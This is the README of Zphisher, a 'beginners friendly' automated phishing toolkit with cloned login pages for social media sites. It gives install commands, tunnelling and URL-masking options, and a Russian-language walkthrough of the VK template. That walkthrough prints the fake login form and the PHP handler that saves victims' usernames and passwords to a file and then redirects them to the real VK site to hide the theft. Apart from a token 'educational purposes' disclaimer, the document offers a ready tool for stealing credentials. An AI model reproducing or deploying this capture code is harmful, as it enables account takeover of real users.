






<!-- Zphisher -->

<p align="center">
  
</p>

<p align="center">
  
  
  
  
  
</p>

<p align="center">
  
  
  
  
  </a>
</p>

<p align="center"><b>A beginners friendly, Automated phishing tool with 30+ templates.</b></p>

##

<h3><p align="center">Disclaimer</p></h3>

<i>Any actions and or activities related to <b>Zphisher</b> is solely your responsibility. The misuse of this toolkit can result in <b>criminal charges</b> brought against the persons in question. <b>The contributors will not be held responsible</b> in the event any criminal charges be brought against any individuals misusing this toolkit to break the law.

<b>This toolkit contains materials that can be potentially damaging or dangerous for social media</b>. Refer to the laws in your province/country before accessing, using,or in any other way utilizing this in a wrong way.

<b>This Tool is made for educational purposes only</b>. Do not attempt to violate the law with anything contained here. <b>If this is your intention, then Get the hell out of here</b>!

It only demonstrates "how phishing works". <b>You shall not misuse the information to gain unauthorized access to someones social media</b>. However you may try out this at your own risk.</i>

##

### Features

- Latest and updated login pages.
- Beginners friendly
- Multiple tunneling options
  - Localhost
  - Cloudflared
  - LocalXpose
- Mask URL support 
- Docker support

##

### Installation

- Just, Clone this repository -
  ```
  git clone --depth=1 https://github.com/htr-tech/zphisher.git
  ```

- Now go to cloned directory and run `zphisher.sh` -
  ```
  $ cd zphisher
  $ bash zphisher.sh
  ```

- On first launch, It'll install the dependencies and that's it. ***Zphisher*** is installed.

##

### Installation (Termux)
You can easily install zphisher in Termux by using tur-repo
```
$ pkg install tur-repo
$ pkg install zphisher
$ zphisher
```
### A Note : 
***Termux discourages hacking*** .. So never discuss anything related to *zphisher* in any of the termux discussion groups. For more check : [wiki](https://wiki.termux.com/wiki/Hacking)

##

<p align="left">
  <a href="https://shell.cloud.google.com/cloudshell/open?cloudshell_git_repo=https://github.com/htr-tech/zphisher.git&tutorial=README.md" target="_blank"></a>
</p>

##

### Installation via ".deb" file

- Download `.deb` files from the [**Latest Release**](https://github.com/htr-tech/zphisher/releases/latest)
- If you are using ***termux*** then download the `*_termux.deb`

- Install the `.deb` file by executing
  ```
  apt install <your path to deb file>
  ```
  Or
  ```
  $ dpkg -i <your path to deb file>
  $ apt install -f
  ```

##

### Run on Docker

- Docker Image Mirror:
  - **DockerHub** : 
    ```
    docker pull htrtech/zphisher
    ```
  - **GHCR** : 
    ```
    docker pull ghcr.io/htr-tech/zphisher:latest
    ```

- By using the wrapper script [**run-docker.sh**](https://raw.githubusercontent.com/htr-tech/zphisher/master/run-docker.sh)

  ```
  $ curl -LO https://raw.githubusercontent.com/htr-tech/zphisher/master/run-docker.sh
  $ bash run-docker.sh
  ```
- Temporary Container

  ```
  docker run --rm -ti htrtech/zphisher
  ```
  - Remember to mount the `auth` directory.

##

<details>
  <summary><h3>Dependencies</h3></summary>

<b>Zphisher</b> requires following programs to run properly - 
- `git`
- `curl`
- `php`

> All the dependencies will be installed automatically when you run **Zphisher** for the first time.
</details>

<details>
  <summary><h3>Tested on</h3></summary>

- **Ubuntu**
- **Debian**
- **Arch**
- **Manjaro**
- **Fedora**
- **Termux**
</details>

##

<h3 align="center"><i>:: Workflow ::</i></h3>
<p align="center">

</p>

##

### Find Me on:
<p align="left">
  <a href="https://tahmidrayat.is-a.dev" target="_blank"></a>
  <a href="https://github.com/htr-tech" target="_blank"></a>
</p>


### *Thanks to all contributors*:

<table>
  <tr align="center">
    <td><a href="https://github.com/1RaY-1"><br /><sub><b>1RaY-1</b></sub></a></td>
    <td><a href="https://github.com/adi1090x"><br /><sub><b>Aditya Shakya</b></sub></a></td>
    <td><a href="https://github.com/AliMilani"><br /><sub><b>Ali Milani</b></sub></a></td>
    <td><a href="https://github.com/Meht-evaS"><br /><sub><b>AmnesiA</b></sub></a></td>
    <td><a href="https://github.com/KasRoudra"><br /><sub><b>KasRoudra</b></sub></a></td>
   <td><a href="https://github.com/MoisesTapia"><br /><sub><b>Moises Tapia</b></sub></a></td>
  </tr>
  <tr align="center">
   <td><a href="https://github.com/E343IO"><br /><sub><b>Mr.Derek</b></sub></a></td>
    <td><a href="https://github.com/BDhackers009"><br /><sub><b>Mustakim Ahmed</b></sub></a></td>
    <td><a href="https://github.com/sepp0"><br /><sub><b>sepp0</b></sub></a></td>
    <td><a href="https://github.com/TripleHat"><br /><sub><b>TripleHat</b></sub></a></td>
    <td><a href="https://github.com/Yisus7u7"><br /><sub><b>Yisus7u7</b></sub></a></td>
  </tr>
<table>

<!-- // -->

## Описание программы

Данная программа позволяет использовать рассылки фишинговых страниц логина в различные сайты, соцсети и другие приложения

Фишки программы:
- Используются последние версии страничек входа приложений
- различные способы развертывания приложения:
  - на локальной машине
  - cloudflare
  - localXpose
- мы можем ставить кастомную маску `URL`
- есть поддержка `Docker`

## Структура программы

Структура программы выглядит следущим образом:
- `sites`: сайты
  - В данной папке находятся различные шаблоны сайтов для входа на сайт, в соцсеть
- `scripts`: папка скриптов, в ней находится один скрипт, нужный для запуска
- `Dockerfile`: обычный докерфайл
- `run-docker.sh`: скрипт для запуска докера
- `zphisher.sh`: самый главный скрипт, необходимый для запуска

## Разбор кода шаблона страницы

Возьмем, например, ВК. В каждой папке структура выглядит примерно следующим образом:
- `assets-файлы`: различные картинки и иконки
- `index.php`: он импортирует в себя файл `ip.php`. Нужен для определения ip-адреса жертвы
- `login.html`: главный файл разметки, содержит в себе обычную разметку и инлайновые стили
- `login.php`: по сути главный файл, через который мы ловим данные жертвы

Разберем работу детальнее

В HTML-файле нас интересует следующий кусок кода:

```html
                                        <form class="vkc__DefaultSkin__contentMobile vkc__DefaultSkin__content"
                                            method="post" action="login.php">
                                            <div>
                                                <div class=vkc__StepInfo__body>
                                                    <div class="vkc__StepInfo__avatar vkc__StepInfo__hideAvatarMedia">
                                                        <div class=vkc__DefaultSkin__avatar>
                                                            <div class=vkc__ServiceAvatar__serviceAvatar>
                                                                <div class=vkc__ServiceAvatar__img><svg width=48
                                                                        height=48 fill=none
                                                                        xmlns=http://www.w3.org/2000/svg
                                                                        viewBox="0 0 20 20" style=display:block>
                                                                        <path
                                                                            d="M0 9.6c0-4.5 0-6.8 1.4-8.2C2.8 0 5.1 0 9.6 0h.8c4.5 0 6.8 0 8.2 1.4C20 2.8 20 5.1 20 9.6v.8c0 4.5 0 6.8-1.4 8.2-1.4 1.4-3.7 1.4-8.2 1.4h-.8c-4.5 0-6.8 0-8.2-1.4C0 17.2 0 14.9 0 10.4v-.8Z"
                                                                            fill=#07F></path>
                                                                        <path
                                                                            d="M10.7 14.3c-4.5 0-7.2-3.1-7.3-8.3h2.3c0 3.8 1.8 5.4 3.1 5.8V6H11v3.3c1.3-.1 2.6-1.6 3-3.3h2.2c-.3 2-1.8 3.5-2.8 4.2 1 .5 2.7 1.8 3.3 4.1h-2.3c-.5-1.6-1.8-2.8-3.4-3v3h-.3Z"
                                                                            fill=#fff></path>
                                                                    </svg></div>
                                                            </div>
                                                        </div>
                                                    </div>
                                                    <h1
                                                        class="vkc__VKDisplayTitle__title vkc__VKDisplayTitle__demiboldWeight vkc__VKDisplayTitle__titleLevel2">
                                                        <div>Enter phone number</div>
                                                    </h1>
                                                    <h3
                                                        class="vkc__StepInfo__description vkuiHeadline vkuiHeadline--android vkuiHeadline--sizeY-compact vkuiHeadline--l-1 vkuiHeadline--w-regular">
                                                        You'll use your phone number to&nbsp;sign&nbsp;in
                                                        to&nbsp;your&nbsp;account</h3>
                                                </div>
                                                <section class=vkc__DefaultSkin__form>
                                                    <div class=vkc__DefaultSkin__input>
                                                        <div>
                                                            <div class=vkc__TextField__wrapper><input name=login
                                                                    type=text class=vkc__TextField__input
                                                                    placeholder="Email or&nbsp;phone"
                                                                    autocomplete=username required value></div>
                                                        </div>
                                                        </br>
                                                        <div>
                                                            <div class=vkc__TextField__wrapper><input name=password
                                                                type=password class=vkc__TextField__input
                                                                placeholder="Enter password"
                                                                autocomplete=current-password required value></div>
                                                        </div>
                                                    </div>
                                                </section>
                                            </div>
                                            <div class=vkc__DefaultSkin__buttonContainer>
                                                <div class=vkc__DefaultSkin__button><button type=submit
                                                        class="vkuiButton vkuiButton--sz-l vkuiButton--lvl-primary vkuiButton--clr-accent vkuiButton--aln-center vkuiButton--sizeY-compact vkuiButton--stretched vkuiTappable vkuiTappable--sizeX-regular vkuiTappable--hasHover vkuiTappable--mouse"><span
                                                            class=vkuiButton__in><span
                                                                class="vkuiButton__content vkuiText vkuiText--sizeY-compact vkuiText--w-2">Continue</span></span><span
                                                            aria-hidden=true
                                                            class=vkuiTappable__hoverShadow></span></button></div>
                                                <div>
                                                    <div class="vkc__Agreement__wrapper vkc__Agreement__centered">
                                                        <div>By pressing <b>Continue</b>, you agree to the <a
                                                                href=https://id.vk.com/terms class=vkc__Agreement__link
                                                                target=_blank>Terms of Service</a> and <a
                                                                href=https://id.vk.com/privacy
                                                                class=vkc__Agreement__link target=_blank>Privacy
                                                                Policy</a></div>
                                                    </div>
                                                </div>
                                            </div>
                                        </form>

```
Тег `form` отвечает за отправку данных. Есть два поля `login` и `password`. Далее они идут POST-запросом в файл `login.php`:

```php
<?php

file_put_contents("usernames.txt", "Vk Username: " . $_POST['login'] . " Pass: " . $_POST['password'] . "\n", FILE_APPEND); // добавляем в файл usernames данные пользователя
header('Location: https://vk.com/restore/'); // перенапрпавляем пользователя на оригинальный сайт, показывая ему, что якобы произошла ошибка при входе
exit();

```

Это и есть по сути вся работа программы


## Запуск программы

### Главная страница программы



### Выбор хоста



### Успешный запуск на локалке



### Начальная страница сайта



### Вводим данные


### Ошибка. Пользователя перенаправляет на другую страницу



### Логируем данные, введенные пользователем



